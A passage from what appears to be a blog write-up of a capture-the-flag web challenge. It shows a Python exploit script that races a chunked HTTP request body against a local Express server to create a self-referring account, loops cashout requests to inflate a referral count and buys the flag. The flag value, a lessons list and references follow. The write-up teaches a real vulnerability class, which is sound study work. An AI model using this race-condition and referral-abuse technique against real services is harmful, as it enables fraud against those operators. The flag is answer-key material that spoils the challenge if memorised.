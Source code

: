 ```python
# Generate chunks to send
code = requests.get('http://localhost:3000/code', cookies={'token': token}).text.split('<strong>')[1].split('</strong>')[0]
code_chunk = b'refer=' + code.encode()

# Complete request to create a self-referring account
connection.send(
    (
        f'{len(code_chunk):X}\r\n'.encode() +
        code_chunk +
        b'\r\n' +
        b'0'
        b'\r\n' # end of the zero chunk
        b'\r\n' # end of the whole body (not necessary?)
    )
)

# Create an account that increase our original account's refer count
requests.post('http://localhost:3000/new', data={'refer':code})

# Increase the ref count by 1.5
for _ in range(70):
    requests.get('http://localhost:3000/cashout', cookies={'token': token})

# Buy the FLAG
flag = requests.get('http://localhost:3000/buy', cookies={'token': token}).text.split('<p>')[1].split('</p>')[0]
print(flag)
```

Flag is: `dice{007227589c05e703}`

![celebrating-flag](/blog/images/2025-04-15-11-14-30.png)

## Conclusions

What we learned in this challenge:

1. **HTTP request body handling is asynchronous**
2. **Race conditions in Express route handlers**
3. **Self-referral logic abuse**

## References

If you're interested to learn more, here is a list of useful references:

- [Event-driven programming - Wikipedia](https://en.wikipedia.org/wiki/Event-driven_programming)
- [Node.js Events API](https://nodejs.org/docs/latest/api/events.html#events_emitter_on_event_listener)
- [Understanding `request.on(...)` in Node.js – Stack Overflow](https://stackoverflow.com/questions/12892717/in-node-js-request-on-what-is-it-this-on)
- [MDN: `RegExp` - Regular Expressions in JavaScript](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/RegExp)
- [MDN: `Map.prototype.has`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Map/has)
- [MDN: `Map.prototype.get`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Map/get)
- [Node.js `http.ClientRequest` Class](https://nodejs.org/api/http.html#class-httpclientrequest)
- [YouTube: Node.js Stream Crash Course](https://www.youtube.com/watch?v=aTThXMRxmiE)
- [Difference between `res.end()` and `res.send()` – Stack Overflow](https://stackoverflow.com/questions/29555290/what-is-the-difference-between-res-end-and-res-send#49242271)
- [RFC 7230 – Hypertext Transfer Protocol (HTTP/1.1): Message Syntax and Routing](https://www.packetizer.com/rfc/rfc7230/)

